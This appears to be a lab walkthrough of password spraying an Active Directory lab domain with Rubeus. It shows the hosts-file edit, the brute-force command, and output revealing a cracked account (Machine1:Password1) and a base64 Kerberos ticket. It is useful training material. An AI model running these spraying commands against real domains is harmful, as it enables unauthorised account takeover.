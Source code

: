 Before password spraying with Rubeus, you need to add the domain controller domain name to the windows host file. You can add the IP and domain name to the hosts file from the machine by using the echo command:

`echo 10.10.197.112 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts`

1. `cd Downloads` - navigate to the directory Rubeus is in
2. `Rubeus.exe brute /password:Password1 /noticket` - This will take a given password and “spray” it against all found users then give the .kirbi TGT for that user

```bash
controller\administrator@CONTROLLER-1 C:\Users\Administrator\Downloads>echo 10.10.135.137 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts
controller\administrator@CONTROLLER-1 C:\Users\Administrator\Downloads>Rubeus.exe brute /password:Password1 /noticket

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[-] Blocked/Disabled user => Guest
[-] Blocked/Disabled user => krbtgt
[+] STUPENDOUS => Machine1:Password1
[*] base64(Machine1.kirbi):

      doIFWjCCBVagAwIBBaEDAgEWooIEUzCCBE9hggRLMIIER6ADAgEFoRIbEENPTlRST0xMRVIuTE9DQUyi
      JTAjoAMCAQKhHDAaGwZrcmJ0Z3QbEENPTlRST0xMRVIubG9jYWyjggQDMIID/6ADAgESoQMCAQKiggPx
      BIID7X5jDNej2iF5f1pJiq0CyaD/RNnxz3MLWVY0/KlZceZruw9O6eN4gptAKWdIbP1B8+FiBERdxF6R
      hSzgQLpd6buWMjZzY165bGBpGK9Dd3t989gboqKvD1wXon7I4CVFnaEW8TnSyUauPdMFYft8V+ilE7Kt
      M5C9PI9TSPJyaUkTOS0NZvqiNrWBuD4qq8rtQERSQADejaMfQibusIj4WkycUUxvMC4wXsAIMoEBD9YM
      Ta2ZJgBrbiZ98Gkg3nyHl4YQ0QK+wEYiN7T+/MPc6PLkijsMNsHVG41OmokxfKv3vXqmWdLqIScm7z2f
      5VB4q+MhrxL8RupeE5s2Q++mGtnuyyUHxaMHg7pwRsGuxAASAF6KfIGNMjoO82i7ui+1//8EEF7SstZX
      OOqh4wlSRdup5Xh8AxOj0u9Tzgw3ivIreqVP7VXtpRhwnvPrf3cENbNs4ENiCyIfVCWVXAnKYAnkf7gf
      WyTUEnODw0dP9MlHGglN6d8rrZWk9jEWISvInmgk+MrnXeALRwF8q134idvz3v2DxF5aULdM4HV02xIo
      VEY51+I4gxaTlEkuQsVPiJtcQeiuyX6OITsl4F6bkKd2OVIIQ1LdITDMJzuoIqbGM+kpuOEODBTctLRd
      7i6dsihQ+bZf6TWi6NJ4f/ZPDd9dTOOtjVaQvi3NlCjMBcZtsuRgC53ieiGq7/54P6ZqE5InZZK1mllM
      Gg2bryfL5uOyQu0mMfuXO7ZrhSqLoRiojF3KS/aTXOWT68GjmUQ+zLNmFcGjSz7gctroHxdz9SRiQezy
      KwnGMa8ijzvkrFuUiO0y2m7TicWigN795b30pmwBA38qN6DR5h9B1aiBoiSO8AuKRLnajMZXIfh95RUd
      78UCuOSF09MsDc5ipPlqoIpo3SvNzqGikeeIt4GSkV9Nfx5NbWXSvOoOz5slLtE0uivrrbmOzxydqkRE
      Y8215pLrqap/gUBuC7UcYszbUWQQpz4oRpzSrKhRECEar78AHaPEEoSNxNdbT991JJJF4IBbyQNLnKzG
      K5ZgQrsMNUW2hWDDVfhuFtAi4UwNoWyxWZDyeWnkq8/btVYx+XlaQsK0vO4TfIgCPPuXiEWWSWxQhQwO
      FN3NW5mzdvGMtPLS4qdzZuzx7FWTpLfQWFTMOKhbSuMDDYueVls/kexouBiZTB8zZ3+QQ+dmJUCwFUzu
      98CQyvuv5iDOzP5bsRxhSXlfvD6Dm+rIjL9jntbFwYyj588vpegMVaznikdmEJAumOHRrQgHBqBRhR5V
      al2bgh0y00Lo8zCjqy+c5CiQp+YFJi3+JeQIGKsqV2h4+cbhrxKIlnQqExawZJtpQKOB8jCB76ADAgEA
      ooHnBIHkfYHhMIHeoIHbMIHYMIHVoCswKaADAgESoSIEIKhyMZpMwU215u2/yya0NkPY1pJq3H9mhIzm
      fyqKZST1oRIbEENPTlRST0xMRVIuTE9DQUyiFTAToAMCAQGhDDAKGwhNYWNoaW5lMaMHAwUAQOEAAKUR
      GA8yMDIxMDYyOTE1NDYxMVqmERgPMjAyMTA2MzAwMTQ2MTFapxEYDzIwMjEwNzA2MTU0NjExWqgSGxBD
      T05UUk9MTEVSLkxPQ0FMqSUwI6ADAgECoRwwGhsGa3JidGd0GxBDT05UUk9MTEVSLmxvY2Fs



[+] Done

```
